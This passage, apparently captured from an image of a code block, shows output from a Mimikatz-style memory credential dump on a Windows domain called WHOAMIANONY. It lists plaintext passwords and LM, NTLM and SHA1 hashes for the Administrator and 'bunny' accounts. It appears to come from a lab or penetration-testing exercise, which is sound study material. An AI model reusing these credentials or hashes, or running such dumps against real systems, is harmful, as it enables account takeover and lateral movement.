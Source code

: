 ```cmd
	 * Password : Whoami2021
	ssp :	
	credman :	

Authentication Id : 0 ; 792062 (00000000:000c15fe)
Session           : CachedInteractive from 1
User Name         : Administrator
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/13 17:29:39
SID               : S-1-5-21-1315137663-3706837544-1429009142-500
	msv :	
	 [00000003] Primary
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * LM       : 56b0cd8b125c05055e2dd9e955f18034
	 * NTLM     : ab89b1295e69d353dd7614c7a3a80cec
	 * SHA1     : 2bc4124300a6a8fc0ca10891823d36c64e4b3a40
	tspkg :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	wdigest :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY
	 * Password : Whoami2021
	kerberos :	
	 * Username : Administrator
	 * Domain   : WHOAMIANONY.ORG
	 * Password : Whoami2021
	ssp :	
	credman :	

Authentication Id : 0 ; 520776 (00000000:0007f248)
Session           : Interactive from 1
User Name         : bunny
Domain            : WHOAMIANONY
Logon Server      : DC
Logon Time        : 2025/3/13 17:28:22
SID               : S-1-5-21-1315137663-3706837544-1429009142-1112
	msv :	
	 [00000003] Primary
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * LM       : 7de10bf327ef7f2ac6ebe8776a153feb
	 * NTLM     : cc567d5556030b7356ee4915ff098c8f
	 * SHA1     : 3747632756191e3350e53211c63f804eb163638f
	tspkg :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * Password : Bunny2021
	wdigest :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY
	 * Password : Bunny2021
	kerberos :	
	 * Username : bunny
	 * Domain   : WHOAMIANONY.ORG
	 * Password : Bunny2021
	ssp :	
	credman :	

Authentication Id : 0 ; 997 (00000000:000003e5)
```